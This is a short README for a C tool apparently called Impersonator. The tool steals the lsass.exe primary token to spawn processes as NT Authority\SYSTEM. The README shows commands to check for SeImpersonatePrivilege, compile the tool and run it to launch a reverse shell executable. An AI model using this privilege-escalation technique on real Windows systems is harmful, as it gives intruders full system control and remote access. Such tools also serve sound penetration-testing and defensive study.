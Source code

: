 # Impersonator

![Image](https://github.com/plackyhacker/impersonator/blob/main/)

Simple C code to impersonate the `lsass.exe` primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` privilege is required to impersonate another process token.


**Enumerate**

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```


**Compile the code**

```
C:\Dev\>compile.bat
```


**Run the binary**

```
C:\Target\>impersonator.exe reverse_shell.exe
```
